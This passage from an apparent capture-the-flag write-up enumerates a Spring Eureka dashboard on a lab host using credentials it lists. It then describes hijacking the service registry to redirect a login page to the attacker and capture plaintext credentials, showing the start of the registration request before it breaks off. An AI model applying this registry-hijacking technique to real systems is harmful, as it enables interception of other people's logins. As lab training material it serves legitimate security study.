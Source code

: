## Enumeration of Port 8761/TCP

Based on the information above we started investigating port `8761/TCP` using the `credentials` we found first to login to the `dashboard` of `Spring Eureka`.

- [http://furni.htb:8761/](http://furni.htb:8761/)

| Username   | Password          |
| ---------- | ----------------- |
| EurekaSrvr | 0scarPWDisTheB3st |

![](images/2025-04-26_21-18_8761_spring_eureka_dashboard.png)

## Attacking Spring Boot Eureka

### Micro-Service Mapping Abuse

We noticed that the `mappings` for the different `applications` and a quick `Google search` lead us the the potential `abuse` of `Micro-Service mappings` in `Spring Eureka`.

- [https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka)

The idea was to `map` the `login page` to our `local machine` in order to catch the `plaintext authentication` made by `miranda-wise`.

```shell
POST /eureka/apps/WEBSERVICE HTTP/1.1
Host: furni.htb:8761
Cache-Control: max-age=0
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://furni.htb:8761/
Accept-Encoding: gzip, deflate, br
Cookie: SESSION=ODU5MTkzZDItNzQ0ZS00MWIzLTkxM2EtOWRlOTY0NWFmODY2; JSESSIONID=0C77FE994AEC3A26E4EC265E0443D8CD
Connection: keep-alive
Content-Length: 1019

```